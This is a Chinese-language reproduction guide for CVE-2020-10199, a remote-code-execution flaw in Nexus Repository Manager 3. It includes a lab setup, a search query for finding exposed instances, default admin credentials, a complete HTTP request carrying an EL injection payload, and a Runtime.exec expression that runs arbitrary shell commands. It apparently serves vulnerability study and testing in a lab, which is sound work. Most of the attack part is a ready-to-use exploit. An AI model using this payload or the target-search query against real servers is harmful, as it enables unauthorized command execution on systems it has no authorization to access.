



# Nexus Repository Manager 3 group 远程命令执行漏洞 CVE-2020-10199

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞影响

```
Nexus < 3.21.1
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。



## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```



发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：

 ```
 NX-ANTI-CSRF-TOKEN: <your-csrf-token>
 ```

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令。



命令`touch /tmp/awesome_poc`执行成功：


